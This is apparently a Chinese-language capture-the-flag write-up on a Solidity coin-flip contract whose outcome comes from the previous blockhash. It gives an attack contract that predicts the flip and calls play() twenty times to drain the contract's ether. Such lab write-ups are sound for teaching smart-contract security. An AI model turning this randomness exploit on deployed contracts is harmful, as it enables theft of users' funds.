 ```
contract HeadsOrTails is CtfFramework`{`

    using SafeMath for uint256;

    uint256 public gameFunds;
    uint256 public cost;

    constructor(address _ctfLauncher, address _player) public payable
        CtfFramework(_ctfLauncher, _player)
    `{`
        gameFunds = gameFunds.add(msg.value);
        cost = gameFunds.div(10);
    `}`

    function play(bool _heads) external payable ctf`{`
        require(msg.value == cost, "Incorrect Transaction Value");
        require(gameFunds &gt;= cost.div(2), "Insufficient Funds in Game Contract");
        bytes32 entropy = blockhash(block.number-1);
        bytes1 coinFlip = entropy[0] &amp; 1;
        if ((coinFlip == 1 &amp;&amp; _heads) || (coinFlip == 0 &amp;&amp; !_heads)) `{`
            //win
            gameFunds = gameFunds.sub(msg.value.div(2));
            msg.sender.transfer(msg.value.mul(3).div(2));
        `}`
        else `{`
            //loser
            gameFunds = gameFunds.add(msg.value);
        `}`
    `}`

`}`
```

一个简单的赌博合约，还是利用随机数漏洞，每次猜对可以获得赌注的1.5倍，因为每次下注只能为0.1ether，所以一次的收益为0.05ether，要将合约的ether清空需要20次，那么我们直接在合约中循环调用20次即可

部署攻击合约

```
contract attack `{`
    HeadsOrTails target;
    function attack() `{`
        target = HeadsOrTails(your challenge address);

    `}`
    function pwn() payable `{`
        bytes32 entropy = block.blockhash(block.number-1);
        bytes1 coinFlip = entropy[0] &amp; 1;
        for(int i=0;i&lt;20;i++)`{` 
        if (coinFlip == 1)`{`
            target.play.value(100000000000000000)(true);
        `}`
        else `{`
            target.play.value(100000000000000000)(false);
        `}`
    `}`
    `}`
    function () payable `{`

    `}`
`}`
```
